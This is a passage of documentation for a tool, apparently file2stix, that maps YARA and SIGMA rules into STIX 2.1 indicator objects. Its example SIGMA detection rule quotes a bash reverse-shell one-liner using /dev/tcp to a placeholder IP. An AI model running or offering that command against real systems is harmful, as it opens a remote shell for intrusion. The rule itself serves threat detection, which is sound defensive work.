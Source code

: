 ```json
      "extension-definition--d83fce45-ef58-4c6c-a3f4-1fbc32e98c6e": {
        "extension_type": "property-extension",
        "warning_list_match": ["MISP WARNING LIST[0]"]
      }
    }
  }
```

The YARA rule is first encoded with JSON escapes before it is saved in the `pattern` value. e.g.

```
rule dummy\r\n{\r\n    condition:\r\n        false\r\n}
```

The `<RULE NAME>` is defined between the text `rule ` and first `{` (e.g. `dummy` in the last example).

### 19. SIGMA Rule Observables (`indicator`)

e.g. 

```yaml
title: Linux Reverse Shell Indicator
id: 83dcd9f6-9ca8-4af7-a16e-a1c7a6b51871
status: experimental
description: Detects a bash contecting to a remote IP address (often found when actors do something like 'bash -i >& /dev/tcp/10.0.0.1/4242 0>&1')
date: 2021/10/16
author: Florian Roth
logsource:
   product: linux
   category: network_connection
detection:
   selection:
      Image|endswith: '/bin/bash'
   filter:
      DestinationIp: 
         - '127.0.0.1'
         - '0.0.0.0'
   condition: selection and not filter
```

SIGMA Rules are detected if valid YAML containing three top level fields `title`, `logsource` and `detection` is present. If the three field names are detected, entire YAML content is ingested as the SIGMA rule.

SIGMA Rules are represented by [STIX Indicator SDOs (`"type": "indicator"`)](https://docs.oasis-open.org/cti/stix/v2.1/csprd01/stix-v2.1-csprd01.html#_Toc16070633) with [`"pattern_type": "sigma"`](https://docs.oasis-open.org/cti/stix/v2.1/os/stix-v2.1-os.html#_9lfdvxnyofxw).

Here is how SIGMA Rule observables are represented in STIX 2.1 by file2stix;

#### STIX 2.1 indicator SDO

```json
  {
    "type": "indicator",
    "spec_version": "2.1",
    "id": "indicator--<GENERATED BY STIX2 LIBRARY>",
    "created_by_ref": "identity--<IF TLP RED/AMBER USER IDENTITY ID>",
    "created": "<REPORT CREATED PROPERTY VALUE>",
    "modified": "<REPORT MODIFIED PROPERTY VALUE>",
    "indicator_types": ["unknown"],
    "name": "SIGMA Rule: <RULE NAME>",
    "pattern_type": "sigma",
    "pattern": "<SIGMA RULE>",
    "valid_from": "<REPORT CREATED PROPERTY VALUE>",
    "object_marking_refs": [
```